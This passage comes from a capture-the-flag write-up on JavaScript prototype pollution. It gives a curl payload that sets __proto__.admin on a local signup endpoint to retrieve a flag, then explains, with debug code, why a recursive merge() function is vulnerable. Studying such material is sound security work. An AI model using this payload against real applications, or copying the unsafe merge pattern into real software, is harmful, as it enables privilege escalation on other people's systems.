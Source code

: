 The simplest payload to do the same: `{"__proto__": {"admin": 1}}`

So the final payload to solve the problem (using curl since I was not able to send homograph via burp):

{% highlight bash lineos %}
curl -vv --header 'Content-type: application/json' -d '{"__proto__": {"admin": 1}}' 'http://0.0.0.0:4000/signup'; curl -vv 'http://0.0.0.0:4000/getFlag'
{%endhighlight%}

## Merge() - Why was it vulnerable?

One obvious question here is, what makes the `merge()` function vulnerable here? Here is how it works and what makes it vulnerable:

* The function starts with iterating all properties that is present on the 2nd object `b` (since 2nd is given preference incase of same key-value pairs).
* If the property exists on both first and second arguments and they are both of type `Object`, then it recusively starts to merge it.
* Now if we can control the value of b[attr] to make *attr* as `__proto__` and also if we can control the value inside the proto property in *b*, then while recursion, `a[attr]` at some point will actually point to prototype of the object *a* and we can successfully add a new property to all the objects.

Still confused ? Well I don't blame, because it took sometime for me also to understand the concept. Let's write some debug statements to figure out what is happening.

{% highlight javascript lineos %}
const isObject = obj => obj && obj.constructor && obj.constructor === Object;

function merge(a, b) {
    console.log(b); // prints { __proto__: { admin: 1 } }
    for (var attr in b) {
        console.log("Current attribute: " + attr); // prints Current attribute: __proto__        
        if (isObject(a[attr]) && isObject(b[attr])) {
            merge(a[attr], b[attr]);
        } else {
            a[attr] = b[attr];
        }
    }
    return a
}

function clone(a) {
    return merge({}, a);
}
{%endhighlight%}

Now let's try sending the curl request mentioned above. What we can notice is that the object *b* now has the value: `{ __proto__: { admin: 1 } }` where `__proto__` is just a property name and is not actually pointing to function prototype. Now during the function merge(), `for (var attr in b)` iterates through every attribute where the first attribute name now is `__proto__`.

Since it's always of type object, it starts to recursively call, this time as `merge(a[__proto__], b[__proto__])`. This essentially helped us in getting access to function prototype of `a` and add new properties which is defined in the proto property of `b`.
